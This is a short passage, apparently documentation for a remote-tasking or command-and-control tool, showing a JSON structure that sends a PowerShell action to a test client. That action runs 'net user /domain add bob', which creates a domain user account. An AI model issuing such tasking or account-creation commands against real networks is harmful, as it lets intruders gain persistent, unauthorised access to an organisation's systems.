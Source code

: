 Into the full Vessel Structure. 

```
{
    "cid": null,
    "data": {
        "Actions": [
            {
                "action": "powershell1",
                "client_nicnkname": "testclient",
                "command": "net user /domain add bob",
                "executable": "ps.exe"
            }
        ]
    },
    "id": "bb45cf23-cdc7-44f4-acec-e5b2880f7880",
    "status": "success",
    "timestamp": 1716167878
}

```

## TLDR: 3 Step process.

1) Create Entry

2) Wrap entry in parent tag

3) Wrap parent tags in full Vessel structure
